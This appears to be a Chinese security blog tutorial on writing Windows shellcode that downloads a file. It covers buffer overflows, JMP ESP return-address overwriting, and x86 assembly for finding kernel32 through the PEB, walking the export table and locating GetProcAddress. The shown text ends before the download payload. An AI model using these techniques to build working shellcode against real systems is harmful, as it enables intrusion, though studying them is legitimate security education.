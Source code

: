 ```yaml
---
layout: default
title: 一个可以实现文件下载的shellcode
date: 2017-11-12
categories: shellcode
tags: [缓冲区溢出,shellcode]
description: shellcode其实就是一段二进制代码，用来完成攻击者想要完成的功能。
---
```


### 0x01 概述
&emsp;&emsp;本文将从缓冲区溢出、函数地址定位、shellcode编码等介绍shellcode的原理，并编写一个可以实现文件下载的shellcode。

### 0x02 缓冲区溢出
&emsp;&emsp;缓冲区是用于数据缓存的连续内存空间。以windows系统为例，windows的内存模型将4G的虚拟内存从低到高依次划分为栈、堆、数据段、代码段、系统DLL加载区、PEB(process environment block)、TEB(thread environment block)等内存区间，其中堆、栈、PEB、TEB都可以存放数据。<br>
&emsp;&emsp;缓冲区溢出的原理就是，在向缓冲区中填充数据的时候，如果数据长度超过缓冲区的容量，数据就会溢出缓冲区，并覆盖合法的数据，从而造成程序异常，甚至可以改变程序出口位置，执行载荷。<br>
&emsp;&emsp;执行shellcode的关键就是找到缓冲区溢出点的精确位置，使有溢出漏洞的程序跳转执行shellcode。一种方法就是用JMP ESP地址来覆盖程序返回地址，将shellcode放在JMP ESP后面，这样程序就会紧跟着执行shellcode。

### 0x03hellcode编写

##### 寻找kernel32的内存地址

    mov eax, fs:0x30; eax = PEB
    mov eax, [eax + 0x0c]; eax = Ldr
    mov esi, [eax + 0x1c];Flink的地址
    lodsd
    mov ebx,[eax+0x08] ebx = kernel32
    

##### 找到引出表

    mov edx, [ebx + 0x3C]
    add edx, ebx;edx=PE头
    mov edx, [edx + 0x78]
    add edx, ebx; edx = 引出表地址
    mov esi, [edx + 0x20]
    add esi, ebx; esi ＝函数名地址，AddressOfName

##### 查找GetProcAddress

    xor ecx,ecx
    search :
    mov eax, [esi + ecx * 4]
    inc ecx
    add eax, ebx; 依次找每个函数名称
    ; GetProcAddress
    cmp dword ptr[eax], 0x50746547; 'PteG'
    jne search
    cmp dword ptr[eax + 4], 0x41636f72; 'Acor'
    jne search; 如果是GetProcA，表示找到了
